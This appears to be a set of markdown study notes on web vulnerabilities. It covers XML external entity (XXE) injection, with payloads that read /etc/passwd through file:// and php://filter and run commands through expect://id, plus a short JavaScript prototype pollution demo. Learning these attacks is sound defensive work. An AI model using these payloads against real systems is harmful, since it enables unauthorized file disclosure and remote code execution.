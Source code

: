 ## XXE:  
Entities declaration: this type of entity declaration is called internal declaration as everything is defined inside the same document and nothing needs to be fetched externally.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY name "James Jones">
]>
<student>&name;</student>
```

**External entities**:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY sname SYSTEM "https://www.prakharprasad.com/external.xml">
]>
<student>&sname;</student>
```  

**Simple XXE attack: reading files**.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
	<name>&oops;</name>
</student>
```  

**Simple XXE attack: PHP Base64 conversion URI as an alternative**. (php://filter/convert.base64-encode/resource=/file/to/read)  
```
<!DOCTYPE student [
	<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<student>
	<name>&pwn;</name>
</student>
```  

**RCE thtough XXE**:  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
	<!ENTITY rce SYSTEM "expect://id">]>
<student>
	<name>&rce;</name>
</student>
```  

## Prototype Pollution:  
```
var book = {bookName: "Book name", authorName: "Author of book"};
console.log(book.toString())
//output: “[object Object]”

book.__proto__.toString = ()=>{alert("polluted")}
console.log(book.toString())
// alert box pops up: “polluted”

IMAGE: alert pops up with value “polluted”
```
**Additional resources**:  
https://www.mend.io/resources/blog/prototype-pollution-vulnerabilities/  
https://guidesmiths.github.io/cybersecurity-handbook/attacks_explained/prototype_pollution  
